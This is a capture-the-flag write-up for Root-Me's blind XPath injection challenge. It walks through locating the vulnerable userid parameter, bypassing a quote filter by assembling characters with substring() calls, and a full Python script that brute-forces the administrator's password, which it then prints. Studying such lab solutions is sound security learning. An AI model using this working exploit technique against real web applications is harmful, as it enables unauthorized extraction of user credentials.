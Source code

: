 # XPath injection - Blind

Based on the Challenge Name, you can see that we will use Blind XPath Injection to solve this problem. You can read more about Blind XPath Injection [here](https://owasp.org/www-community/attacks/Blind_XPath_Injection)

Firstly, the injection point is at the Members section.

![anh1](https://live.staticflickr.com/65535/51834116972_b840cea7e2_z.jpg)

when you access this section and click on any member in the table, the url will look like this: *http://challenge01.root-me.org/web-serveur/ch24/?action=user&userid=2*

The injection point is the `userid` parameter. You can check by enter `or` operator (|), an error will occur. We can use this to check if our conditional expression is true or not and achive our goal. If our exploit code is true, the page will not display any error. If not, we will see the error sceen. We will use this to blind Xpath Injection.

![anh2](https://live.staticflickr.com/65535/51835798225_fe1581a2c1_b.jpg)

And now we know where should we exploit. I will use it to check for John's password length because he is administrator. 

After check his password length with my exploit code (I will show it at the end of this writeup), i see that John's password length is 14. But after brute-force John's password, its length is actually 13 and I don't know why @@

![anh3](https://live.staticflickr.com/65535/51835061596_f68fa3113c_b.jpg)

And now we know that the password length is 13, we can bruteforce the password. But when you use the substring function with *single quote* or *double quotes*, you will see that they are filter.

![anh4](https://live.staticflickr.com/65535/51835179303_59abc5e856_b.jpg)

Seeing that the single quote and double quotes is filter. Now I'm stuck @@ But after searching about it on Google, I see a way to bypass this filter. You can use substring function and extract many character from the table in Members section, although it's not enough character compare with the alphabet, but it's useful for this challenge.

![anh5](https://live.staticflickr.com/65535/51835179713_684d757151_z.jpg)

You can extract any character in the above table with the substring function. The XML of this table has four tag (i think so :D), which is `<username>` for the Username row, `<email>` for Email row, `<account>` for Account Type row and a hidden tag `<password>` for Password. Example is using `a = substring(//user[userid=2]/account,1,1)` to get the character *a*, because the account type of user who has userid=2 is administrator, and the first character of this string is *a*.

This is my code to exploit this challenge:

```python

import requests
import string
import os

pw_len = 0
pw = ""
url = "http://challenge01.root-me.org/web-serveur/ch24/?action=user&userid=2 and "
for i in range (1,100):
	print("i=" + str(i))
	final_url = url + "string-length(//user[userid=2]/password)=" + str(i)
	res = requests.get(url=final_url)
	if "John's profile" in res.text:
		os.system("clear")
		pw_len = i
		print("Password length is: " + str(i))
		break
	elif i==100:
		print("An error occur!")
#pw length is actually 13, not 14 and I dont know how @@
candidate = {"a": "substring(//user[userid=2]/account,1,1)",
        "b": "substring(//user[userid=1]/account,3,1)",
        "c": "substring(//user[userid=1]/account,5,1)",
        "d": "substring(//user[userid=2]/account,2,1)",
        "e": "substring(//user[userid=1]/account,9,1)",
        "g": "substring(//user[userid=2]/email,12,1)",
        "h": "substring(//user[userid=2]/email,3,1)",
        "i": "substring(//user[userid=3]/username,3,1)",
        "l": "substring(//user[userid=5]/username,2,1)",
        "m": "substring(//user[userid=2]/account,3,1)",
        "n": "substring(//user[userid=2]/username,4,1)",
        "o": "substring(//user[userid=2]/username,2,1)",
        "r": "substring(//user[userid=3]/username,2,1)",
        "s": "substring(//user[userid=1]/email,1,1)",
        "t": "substring(//user[userid=1]/email,2,1)",
        "u": "substring(//user[userid=3]/account,2,1)",
        "v": "substring(//user[userid=1]/username,4,1)",
        "y": "substring(//user[userid=4]/username,5,1)",
        "S": "substring(//user[userid=1]/username,1,1)",
        "J": "substring(//user[userid=2]/username,1,1)",
        "E": "substring(//user[userid=3]/username,1,1)",
        "@": "substring(//user[userid=3]/email,4,1)",
        ".": "substring(//user[userid=3]/email,8,1)",
	"0":"string(0)",
	"1":"string(1)",
	"2":"string(2)",
	"3":"string(3)",
	"4":"string(4)",
	"5":"string(5)",
	"6":"string(6)",
	"7":"string(7)",
	"8":"string(8)",
	"9":"string(9)"
}
for j in range(1,14):
	print("j=" + str(j))
	for key in candidate:
		print("Current key: " + key)
		final_url2 = url + "substring(//user[userid=2]/password," + str(j) + ",1)=" + candidate[key]
		res = requests.get(url = final_url2)
		if "John's profile" in res.text:
			pw += key
			os.system("clear")
			print("Current string: " + pw)
			break
os.system("clear")
print("Password of admin is: " + pw)
#password is ueiJ4a65@1.oS

```

![anh6](https://live.staticflickr.com/65535/51835417724_bc56e60ceb_z.jpg)

Thank for [this page](https://ngaa.tistory.com/18?fbclid=IwAR39JEuheQ2dfykxE61GqKVjX0HN2Uf6DP0KmApusQZE6orURoNcfJPfRoc) and this [Github author](https://github.com/NhatNam-Kyoto/Rootme-Solution/blob/master/Xpath-blind.py?fbclid=IwAR1GcvyiiGSaJJNiU5NKJR7jz4sIZGdnsGyBgqBJ10EHInNq4QlYEUEvdwI), I am able to bruteforce the password and solve this problem.
